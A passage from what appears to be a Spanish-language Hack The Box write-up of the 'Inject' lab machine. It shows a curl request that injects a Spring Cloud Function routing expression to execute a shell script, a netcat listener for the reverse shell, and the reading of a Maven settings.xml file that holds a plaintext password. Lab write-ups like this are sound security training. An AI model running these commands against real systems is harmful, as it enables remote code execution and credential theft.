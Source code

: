 ```
elswix@parrot > curl -X POST  http://10.129.35.222:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/pwned.sh")' --data-raw 'data' -v
```

Antes de ejecutar el archivo, debemos asegurarnos de estar escuchando en el puerto 443 utilizando la herramienta netcat: 

```
elswix@parrot > nc -nlvp 443
```


![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/ES/Machines/Easy/Inject/img/15.png?raw=true)


### Shell as Phil

Al revisar el directorio personal del usuario "Frank", no encontramos la user flag, pero sí observamos un directorio llamado ".m2". Al ingresar a este directorio, encontramos el archivo "settings.xml" y podemos ver que contiene credenciales.

```
frank@inject > cat /home/frank/.m2/settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```
